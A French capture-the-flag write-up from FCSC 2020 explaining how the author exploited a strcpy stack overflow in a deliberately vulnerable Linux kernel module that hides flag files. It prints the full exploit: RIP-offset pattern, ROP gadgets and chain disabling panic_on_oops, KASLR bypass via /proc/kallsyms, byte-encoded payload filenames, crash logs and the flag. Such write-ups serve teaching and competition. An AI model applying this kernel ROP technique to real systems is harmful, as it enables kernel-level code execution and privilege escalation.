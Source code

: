```yaml
---
title: "[FR] Write-up FCSC 2020 : Hello Rootkitty"
date: 2020-05-04T18:00:00+02:00
draft: false
tags:
- CTF
- FCSC
- FCSC 2020
---
```


# I - Intro

Le challenge se compose d'un module Linux pour un kernel `4.14.167 amd64`. Celui-ci est chargé automatiquement dans une VM QEMU accessible via une connexion ssh sur la machine hôte.

# II - Analyse statique et découverte du buffer overflow

Après une analyse statique du binaire avec *Ghidra*, nous remarquons que le module va modifier la table des syscalls pour remplacer `lstat`, `getdents` et `getdents64`.
Ces versions modifiées des syscalls vont faire appel a ceux d'origine et modifier leur retour de manière à masquer les informations à propos des fichiers commençant par `ecsc_flag_`. Le but est donc de trouver un moyen de contourner cette restriction de manière à pouvoir lire le fichier contenant le flag à la racine de la machine.

Après analyse de la version modifiée des syscalls, quelque chose de plutôt important est visible dans `ecsc_sys_getdents` et `ecsc_sys_getdents64`. Lorsque le module va lire ou écrire les noms des fichiers qu'il traite, il utilise la fonction `strcpy` qui ne possède pas de protection contre une attaque de type *buffer overflow*. Comme le module n'a pas de protection à base de *stack cookie*, il est possible d'utiliser un nom de fichier tellement long que l'adresse de retour de la fonction soit modifiée nous permettant donc d'exécuter n'importe quel code avec les privilèges du kernel.

En utilisant un simple pattern, on peut facilement trouver quels caractères permettent de contrôler `RIP` :

```
~ $ touch ecsc_flag_Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
~ $ ls
general protection fault: 0000 [#1] NOPTI
Modules linked in: ecsc(O)
CPU: 0 PID: 55 Comm: ls Tainted: G           O    4.14.167 #11
task: ffffa0a441c0a200 task.stack: ffffab2f4009c000
RIP: 0010:0x6441356441346441
RSP: 0018:ffffab2f4009ff38 EFLAGS: 00000282
RAX: 0000000000000548 RBX: 3563413463413363 RCX: 0000000000000000
RDX: 00007fff8b7c75a6 RSI: ffffab2f4009ff93 RDI: 00007fff8b7c74d3
RBP: 3364413264413164 R08: ffffab2f4009fed0 R09: ffffffffc02d2024
R10: ffffab2f4009fec0 R11: 6741346741336741 R12: 634137634136641
R13: 4130644139634138 R14: 0000000000000000 R15: 0000000000000000
FS:  0000000000000000(0000) GS:ffffffffbcc36000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 000000000124a138 CR3: 0000000001c7e000 CR4: 00000000000006b0
Call Trace:
Code:  Bad RIP value.
RIP: 0x6441356441346441 RSP: ffffab2f4009ff38
---[ end trace 39fccfc1f117da86 ]---
Segmentation fault
```

`RIP` est donc contrôlé par les caractères à partir du 102ème.

# III - Création d'une *ROP chain* pour désactiver `oops=panic`

L'un des principaux problèmes rencontré est la présence de l'option `oops=panic` dans la ligne de commande du kernel, cette option provoque un kernel panic au moindre kernel oops, ce qui se produit lorsque qu'un segfault dans le kernel n'impacte pas complètement la stabilité du système. Il serait plutôt complexe de réussir à créer un exploit qui retourne dans un état stable sans provoquer un kernel oops, le plus simple reste donc de désactiver l'option `oops=panic` avant d'exécuter l'exploit final.

L'option `oops=panic` est représentée par la [variable globale `panic_on_oops`](https://elixir.bootlin.com/linux/v4.14.167/source/kernel/panic.c#L35), il faudrait donc construire une *ROP chain* permettant de mettre sa valeur à 0. Pour trouver les gadgets à utiliser il faut d'abord extraire le ELF original du kernel car celui-ci est compressé, ici en gzip, `binwalk` permet d'obtenir l'offset des données compressées puis `gunzip` permet de les décompresser.

Nous pouvons ensuite utiliser *[ROPGadget](https://github.com/JonathanSalwan/ROPgadget)* pour trouver des gadgets intéressants, voici ceux que j'ai choisi :
```
0xffffffff81269eee : pop rsi ; ret                                  [G1]
0xffffffff8115fac8 : mov dword ptr [rsi], 0 ; xor eax, eax ; ret    [G2]
```
Ils sont plutôt simples à utiliser et ont peu d'effets secondaires. On peut donc construire la *ROP chain* de cette manière :
```py
ropchain = (b"A" * 102) + struct.pack("Q", A_G1) + struct.pack("Q", A_oops) + struct.pack("Q", A_G2) + (b"I" * 8)
```
Il ne faut pas oublier de prendre en compte l'ASLR du kernel mais celle-ci peut être facilement contrée car ses symboles sont accessibles via `/proc/kallsyms`, il suffit alors de comparer l'adresse de `startup_64` exposée par `kallsyms` avec celle du ELF du kernel.

# IV - Restauration des vrais syscalls

Pour restaurer les vrais syscalls `lstat`, `getdents` et `getdents64`, la méthode la plus simple est d'appeler la fonction `cleanup_module` du module. Les symboles du module sont eux aussi exposés par `kallsyms`.

En combinant ceci avec la *ROP chain* du paragraphe précédant, il est possible de retrouver le nom des fichiers commençant par `ecsc_flag_` :
```
~ $ cat /proc/kallsyms  | head
ffffffff8fe00000 T startup_64
ffffffff8fe00000 T _stext
ffffffff8fe00000 T _text
ffffffff8fe00030 T secondary_startup_64
ffffffff8fe000e0 T verify_cpu
ffffffff8fe001e0 T __startup_64
ffffffff8fe00390 T __startup_secondary_64
ffffffff8fe00398 t sanitize_boot_params.constprop.1
ffffffff8fe00430 t run_init_process
ffffffff8fe00460 t try_to_run_init_process
~ $ touch "$(printf 'ecsc_flag_AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xee\x9e\x06\x90\xff\xff\xff\xff\xb8K\x91\x90\xff\xff\xff\xff\xc8\xfa\xf5\x8f\xff\xff\xff\xffIIIIIIII')"
~ $ ls
general protection fault: 0000 [#1] NOPTI
Modules linked in: ecsc(O)
CPU: 0 PID: 71 Comm: ls Tainted: G           O    4.14.167 #11
task: ffff9a8681e1aa80 task.stack: ffffb9094009c000
RIP: 0010:0x4949494949494949
RSP: 0018:ffffb9094009ff50 EFLAGS: 00000246
RAX: 0000000000000000 RBX: 4141414141414141 RCX: 0000000000000000
RDX: 00007ffed4099884 RSI: ffffffff90914bb8 RDI: 00007ffed40997f3
RBP: 4141414141414141 R08: ffffb9094009fed0 R09: ffffffffc01a7024
R10: ffffb9094009fec0 R11: ff8ff5fac8ffffff R12: 4141414141414141
R13: 4141414141414141 R14: 0000000000000000 R15: 0000000000000000
FS:  0000000000000000(0000) GS:ffffffff90836000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 00007ffed40997b0 CR3: 0000000001eae000 CR4: 00000000000006b0
Call Trace:
 ? __kprobes_text_end+0x129b78/0x129b78
Code:  Bad RIP value.
RIP: 0x4949494949494949 RSP: ffffb9094009ff50
---[ end trace 7b7d593635ea5627 ]---
Segmentation fault
~ $ rm "$(printf 'ecsc_flag_AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xee\x9e\x06\x90\xff\xff\xff\xff\xb8K\x91\x90\xff\xff\xff\xff\xc8\xfa\xf5\x8f\xff\xff\xff\xffIIIIIIII')"
~ $ ls
~ $ cat /proc/kallsyms | grep ecsc
ffffffffc01a82c8 b ref_sys_getdents64	[ecsc]
ffffffffc01a82d0 b ref_sys_getdents	[ecsc]
ffffffffc01a82c0 b ref_sys_lstat	[ecsc]
ffffffffc01a82e0 b my_sys_call_table	[ecsc]
ffffffffc01a82d8 b original_cr0	[ecsc]
ffffffffc01a636e t ecsc_end	[ecsc]
ffffffffc01a8000 d __this_module	[ecsc]
ffffffffc01a6150 t ecsc_sys_getdents	[ecsc]
ffffffffc01a636e t cleanup_module	[ecsc]
ffffffffc01a62a0 t ecsc_sys_lstat	[ecsc]
ffffffffc01a6000 t ecsc_sys_getdents64	[ecsc]
~ $ touch "$(printf 'ecsc_flag_AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnc\x1a\xc0\xff\xff\xff\xff')"
~ $ ls
BUG: unable to handle kernel NULL pointer dereference at           (null)
IP:           (null)
PGD 1e86067 P4D 1e86067 PUD 1e87067 PMD 0
Oops: 0010 [#2] NOPTI
Modules linked in: ecsc(O)
CPU: 0 PID: 84 Comm: ls Tainted: G      D    O    4.14.167 #11
task: ffff9a8681e1b300 task.stack: ffffb9094009c000
RIP: 0010:          (null)
RSP: 0018:ffffb9094009ff40 EFLAGS: 00000246
RAX: 0000000000000000 RBX: 4141414141414141 RCX: ffff9a8681e1b940
RDX: 0000000000000000 RSI: 0000000080000000 RDI: ffffffff9081b4c0
RBP: 4141414141414141 R08: ffff9a8681e1b358 R09: 0000000000000000
R10: ffffb9094009ff20 R11: ffff9a8680033348 R12: 4141414141414141
R13: 4141414141414141 R14: 0000000000000000 R15: 0000000000000000
FS:  0000000000000000(0000) GS:ffffffff90836000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 0000000000000000 CR3: 0000000001eb8000 CR4: 00000000000006b0
Call Trace:
 ? entry_SYSCALL_64_after_hwframe+0x3d/0xa2
Code:  Bad RIP value.
RIP:           (null) RSP: ffffb9094009ff40
CR2: 0000000000000000
---[ end trace 7b7d593635ea5628 ]---
Killed
~ $ ls
ecsc_flag_AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnc??????
~ $ cd ..
/home $ ls
ctf
/home $ cd ..
/ $ ls
bin
dev
ecsc_flag_cf785ee0b5944f93dd09bf1b1b2c6da7fadada8e4d325a804d1dde2116676126
etc
home
init
lib
mnt
proc
root
run
sys
tmp
var
/ $ cat ecsc_flag_cf785ee0b5944f93dd09bf1b1b2c6da7fadada8e4d325a804d1dde2116676126
ECSC{c0d801fb2045ddb0ab27766e52b7654ccde41b5fc00d07fa908fefa30b45b8a5}
```
